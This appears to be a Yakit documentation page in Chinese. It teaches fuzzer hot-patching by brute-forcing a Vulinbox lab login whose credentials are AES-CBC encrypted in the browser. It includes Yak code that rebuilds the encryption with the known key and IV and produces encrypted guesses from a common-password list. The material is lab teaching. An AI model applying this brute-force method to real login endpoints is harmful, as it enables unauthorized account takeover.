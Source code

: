 ```yaml
---
sidebar_position: 20
---
```


# 热加载场景案例：爆破aes cbc加密
这篇文章我们将会介绍另一个热加载的实际应用案例：爆破aes cbc加密。我们以 yakit 官方的 Vulinbox靶场为例。

首先我们需要安全并启动 Vulinbox 靶场，打开 yakit ，点击**试验性功能 - (靶场)Vulinbox**：

![](/img/products/yakit/Fuzz-hotpatch-example2/1.png)

打开**Vulinbox 管理器**页面后，点击右上角的安装靶场：

![](/img/products/yakit/Fuzz-hotpatch-example2/2.png)

安装成功后，我们关闭**Vulinbox 管理器**页面后重新打开，看到已经提示安装成功的提示，我们点击启动靶场：

![](/img/products/yakit/Fuzz-hotpatch-example2/3.png)

在启动靶场中设置参数，我们默认即可，点击**启动靶场**按钮：

![](/img/products/yakit/Fuzz-hotpatch-example2/4.png)

等待下方页面输出`VULINBOX RUNNING IN：`的提示，说明靶场启动成功：

![](/img/products/yakit/Fuzz-hotpatch-example2/5.png)

接着我们手动访问该URL，打开靶场页面，找到`CryptoJS.AES(CBC) 前端加密登陆表单`：

![](/img/products/yakit/Fuzz-hotpatch-example2/6.png)

靶场页面如下所示：

![](/img/products/yakit/Fuzz-hotpatch-example2/7.png)

首先我们需要了解这个靶场，这个靶场的目的是要对用户和密码进行爆破，直到找到正确的用户名和密码。而用户名和密码是经过json序列化之后AES CBC的方式进行加密的，所以我们需要先对加密的过程进行分析。

为了完成这个靶场，我们需要了解一下AES算法。
> AES（Advanced Encryption Standard，高级加密标准）是一种对称加密算法，也就是说加密和解密使用相同的密钥。这是一种块加密算法，它以固定大小（128位，即16字节）的块来处理数据。
> 
> CBC（Cipher Block Chaining，密码块链）是AES中常用的一种工作模式。在CBC模式中，每个明文块在加密之前，都会与前一个密文块进行XOR（异或）操作，然后再进行加密。对于第一个明文块，因为前面没有密文块，所以会与一个初始化向量（IV）进行XOR操作。

查看源码，我们可以看到加密的过程如下：
```html
<script>
    var iv = CryptoJS.lib.WordArray.random(128/8);
    function generateKey() {
        return  CryptoJS.enc.Utf8.parse("1234123412341234")  // 十六位十六进制数作为密钥
    }
    const key = generateKey()
    // 解密方法
    function Decrypt(word) {
        return  CryptoJS.AES.decrypt(word, key, {iv: iv}).toString(); 
    }
    // 加密方法
    function Encrypt(word) {
        console.info(word);
        return  CryptoJS.AES.encrypt(word, key, {iv: iv}).toString(); 
    }
    function getData() {
        return {
            "username": document.getElementById("username").value,
            "password": document.getElementById("password").value,
        }
    }
    function outputObj(jsonData) {
        const word = JSON.stringify(jsonData);
        return {
            "data": Encrypt(word),
            "key": key.toString(),
            iv: iv.toString(),
        }
    }
    function submitJSON(event) {
        event.preventDefault();
        const url = "/crypto/js/lib/aes/cbc/handler";
        let jsonData = getData();
        let submitResult = JSON.stringify(outputObj(jsonData), null, 2)
        console.log("key", key)
        fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: submitResult,
        })
            .then(response => response.text())
            .then(data => {
                console.log("Success:", data);
                document.body.innerHTML = data;
            })
            .catch((error) => {
                console.error("Error:", error);
            });
    }
    document.getElementById("json-form").addEventListener("change", () => {
        let jsonData = {
            "username": document.getElementById("username").value,
            "password": document.getElementById("password").value,
        };
        document.getElementById("encrypt").innerHTML = JSON.stringify(outputObj(jsonData), null, 2)
        document.getElementById("input").innerHTML = JSON.stringify(jsonData, null, 2)
    })
    document.getElementById("json-form").addEventListener("submit", submitJSON)
</script>
```
当我们点击**Submit**按钮时，执行逻辑如下：
1. 调用getData函数获取用户在表单中填写的用户名和密码。
2. 调用outputObj函数，将获取到的数据进行AES CBC加密，并将加密后的数据、密钥和初始化向量（iv）一起封装成一个对象。
3. 将这个对象转换为JSON字符串，准备发送到服务器。
4. 使用fetch API向`/crypto/js/lib/aes/cbc/handler`这个后端接口发送一个POST请求，请求的body就是刚才生成的JSON字符串。

另外我们还需要了解一下iv和key的格式，实际上如果对CryptoJS这个库有了解的师傅应该知道，通过调用`CryptoJS.lib.WordArray.random`(iv的生成方式)和`CryptoJS.enc.Utf8.parse`(key的生成方式)生成的iv和key，通过调用`toString()`方法得到的字符串是经过hex过的。我们也可以通过在浏览器控制台中手动调用`iv.toString()`和`key.toString()`的方式或者查看[CryptoJS官方文档](https://cryptojs.gitbook.io/docs/)来了解。

在这之后我们使用yakit的 MITM 模块拦截真正的登录请求，来查看实际发送的数据，并思考如何使用热加载来实现爆破：
![](/img/products/yakit/Fuzz-hotpatch-example2/8.png)

接下来我们需要用 Yak 代码实现这个AES CBC加密，我们知道iv和key是固定的，所以我们可以先使用`codec.DecodeHex(data)`来把十六进制的字符串还原为原始的byte。
```go
// 这里我们使用了wavy call这个语法，即在调用时添加一个~符号，这个符号可以自动处理这个函数返回值中的错误
// 目前自动处理的行为是，如果这个函数结尾有错误，那么自动中断程序执行，抛出错误提示
// 其相当于自动调用die(err)
key = codec.DecodeHex("31323334313233343132333431323334")~
// 需要将iv改为你抓包到post参数的iv值
iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
```

然后我们手动拼接需要使用的用户名和密码，将其转换为JSON字符串：
```go
username = "qwe"
password = "asd"
m = {"username": username, "password": password}
jsonInput = json.dumps(m)
```

另外，通过查询[CryptoJS官方文档](https://cryptojs.gitbook.io/docs/#block-modes-and-padding)知道，如果使用`CryptoJS.AES.encrypt()`进行加密，默认使用的是AES CBC加密方式，默认采用Pkcs7 padding。

在 Yak 代码中，我们也可以使用`codec.AESCBCEncryptWithPKCS7Padding(key, data, iv)`：
```go
result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
base64Result = codec.EncodeBase64(result)
printf("%s", base64Result)
```

最终的代码如下，我们可以将结果输出来查看结果是否正确，需要注意的是，结果可能与抓包页面中post参数的data值不一样，这实际上是因为在 Yak 代码中map是无序的：
```go
key = codec.DecodeHex("31323334313233343132333431323334")~
iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
username = "qwe"
password = "asd"
m = {"username": username, "password": password}
jsonInput = json.dumps(m)
result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
base64Result = codec.EncodeBase64(result)
printf("%s", base64Result) // SUfWboJqpPH3p7I56a3Qn2NDJAtW2/Eq3HFSaLYltgHlKCq3AU/Q038zubFGX/3S
```

我们也可以将结果在浏览器控制台中调用`Decrypt("SUfWboJqpPH3p7I56a3Qn2NDJAtW2/Eq3HFSaLYltgHlKCq3AU/Q038zubFGX/3S")`来查看（`Decrypt`函数的返回值是十六进制字符串），发现可以正确解密，证明我们加密成功。

最后一步，我们编写一个真正可用的热加载函数，来对用户名和密码进行爆破，为了方便，我们将用户名固定为`["admin"]`。
```go
handle = func(p) {
    key = codec.DecodeHex("31323334313233343132333431323334")~
    iv = codec.DecodeHex("03395d68979ed8632646813f4c0bbdb3")~
    usernameDict = ["admin"]
    // passwordDict = x"{{x(pass_top25)}}" // 我们可以使用x前缀字符串来通过fuzztag语法获取pass_top25字典中的值
    passwordDict = ["admin", "123456", "admin123", "88888888", "666666"] // 也可以直接使用手写的list
    resultList = []
    for username in usernameDict {
        for password in passwordDict {
            m = {"username": username, "password": password}
            jsonInput = json.dumps(m)
            result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
            base64Result = codec.EncodeBase64(result)
            resultList.Append(base64Result)
        }
    }
    return resultList
}
```

将data参数设置为`{{yak(handle)}}`，点击**发送请求**按钮，可以看到我们成功爆破出用户名和密码：
![](/img/products/yakit/Fuzz-hotpatch-example2/9.png)

实际上，靶场每次启动时爆破成功的密码是随机的，所以师傅们在复现时遇到可能会遇到与图中不同的情况。

感谢看到最后的师傅，至此我们已经对 Web Fuzzer 的所有高级(复杂)用法进行了系统性的讲解。
